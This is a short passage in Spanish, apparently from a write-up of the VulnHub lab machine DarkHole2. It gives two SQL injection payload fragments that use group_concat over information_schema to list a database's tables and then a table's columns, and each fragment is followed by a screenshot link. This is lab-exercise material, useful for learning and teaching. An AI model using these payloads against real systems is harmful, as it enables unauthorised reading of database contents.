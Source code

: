 Para obtener las tablas de una base: `group_concat(table_name) from information_schema.tables where table_schema='nombre_de_la_base'`

![sqli7](/assets/img/commons/vulnhub/DarkHole2/sqli7.png){: .normal }

Para obtener las columnas de una tabla sobre una base: `group_concat(column_name) from information_schema.columns where table_schema='nombre_de_la_base' and table_name='nombre_de_la_tabla'`

![sqli8](/assets/img/commons/vulnhub/DarkHole2/sqli8.png){: .normal }
